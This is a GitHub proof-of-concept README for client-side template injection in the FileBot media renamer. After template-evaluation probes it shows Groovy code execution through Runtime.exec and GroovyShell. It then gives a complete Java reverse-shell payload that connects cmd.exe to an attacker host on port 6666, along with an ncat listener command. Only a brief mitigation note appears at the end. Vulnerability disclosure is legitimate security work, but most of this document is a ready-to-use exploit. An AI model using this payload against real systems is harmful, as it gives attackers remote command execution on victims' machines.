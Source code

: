 # FileBot_CSTI_PoC
FileBot Client Side Template Injection - ACE/Rev Shell PoC








## Initial Testing

```{{7*7}}```

![image](https://github.com/user-attachments/assets/3a52a280-c553-4e50-a4e9-5d062ef6842d)


```{{7/0}}```

![image](https://github.com/user-attachments/assets/b7f54b29-5105-496b-ab7f-5d5b77ff1255)


```{"foo".toUpperCase()}```

![image](https://github.com/user-attachments/assets/cdd60f92-17ff-4ca9-99ae-bb5071bb3a24)


## Determine the backend language to be Apache Groovy

```java
${T(java.lang.Runtime).getRuntime().exec('whoami')}
```
![image](https://github.com/user-attachments/assets/78055dcd-ba25-4154-bfa4-68a8f819950a)

![image](https://github.com/user-attachments/assets/5bcdc26f-5465-40d6-8546-ca2e611ba179)


## More Testing

```java
{def shell = new GroovyShell()  }
```

![image](https://github.com/user-attachments/assets/e7d6c3a7-b16d-4989-85fa-805c5e686acd)


```java
{def shell = new GroovyShell()                           
def result = shell.evaluate '3*5'}
```

![image](https://github.com/user-attachments/assets/99230eab-3a31-4424-94ed-ec21dbed59cb)



## Reverse Shell

```java
{String host="192.168.1.X";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();}
```

![image](https://github.com/user-attachments/assets/fd5f8741-2510-4072-bdff-c752a018b81c)


```bash
ncat.exe -lvnp 6666
```

![image](https://github.com/user-attachments/assets/d40a6aa4-0498-47fa-8cf0-6bab2a24dac6)


## Mitigations

If interpreting user supplied templates/commands, access to certain commands should be limited. 

https://github.com/mobeigi/filebot/blob/master/source/net/filebot/format/ExpressionFilter.java

![image](https://github.com/user-attachments/assets/d22f861b-0779-41c4-b1cb-436d6f98771b)
